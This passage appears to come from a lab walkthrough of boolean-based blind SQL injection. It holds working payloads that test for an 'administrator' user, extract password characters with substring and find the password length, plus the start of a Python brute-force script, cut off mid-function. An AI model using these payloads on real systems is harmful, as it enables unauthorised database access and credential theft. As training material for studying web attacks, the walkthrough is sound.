 ```sql
' and (select 'a' from users where username='administrator')='a' -- -
```

In the nestead query we are doing the following:
Return me an 'a' if the user 'administrator' exist. But we know the username, but ¿if we don't know?¿We can do a bruteforce of users but is the best option? No.

10. Using substring to discover new characters

Now with substring you can indicate that you want to obtain the first character of the user administrator(if exists), then if return an 'a' and is equal to an 'a' the message appear.
```sql
' and (select substring(username,1,1) from users where username='administrator')='a'-- -
```

Sintax of substring(string, start_position, length)

11. Obtaining the password

```sql
' and (select substring(password,1,1) from users where username='administrator')='p'-- -
```

If you want to automatice this you can use the intruder(recommended burp pro) or python scripting.

12. Automate with burp or python scripting

For discover the full password you have to iterate with substring start parameter and the comparing character, you can create a python script.

13. The first of all is discover the length of the password, to do this, we can use this query:

```sql
' and (select 'a' from users where username='administrator' and length(password)>=20)='a'-- -
```

14. Script in python:

```python
#!/usr/bin/env python3

from pwn import *
from termcolor import colored
import requests
import sys
import signal
import string
import time
import threading

def def_handler(sig, frame):
    print(colored(f"\n[+] Saliendo... [+]", 'red'))
    p1.failure("Parando ataque de fuerza bruta")
    sys.exit(1)

# Ctrl_c
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits

p1 = log.progress("SQLI")
def makeSQLI():
   
    p2 = log.progress("PASSWORD")
    
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""
```